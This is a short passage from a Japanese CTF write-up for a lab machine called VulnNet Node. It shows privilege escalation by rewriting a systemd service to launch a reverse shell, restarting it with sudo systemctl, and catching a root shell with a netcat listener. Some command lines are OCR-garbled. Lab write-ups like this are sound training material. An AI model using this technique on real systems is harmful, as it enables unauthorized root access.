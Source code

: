 - serviceからreverseshellを呼ぶように書き換え
```
to.timerage@vulnnet-node:/tmp/tmp.45XOApCBKe$ cat /etc/systemd/system/vulnnet-aut
[Unit]                                                                                                         
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target

```

- サービス呼び出し
```
ulnnet-auto.timeret-node:/tmp/tmp.45XOApCBKe$ sudo -u root /bin/systemctl stop vu
vulnnet-auto.timert-node:/tmp/tmp.45XOApCBKe$ sudo -u root /bin/systemctl start v
```

- rootでリバースシェル完了
```
└─# nc -lnvp 4321         
listening on [any] 4321 ...
connect to [10.9.1.82] from (UNKNOWN) [10.10.66.68] 54790
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

```
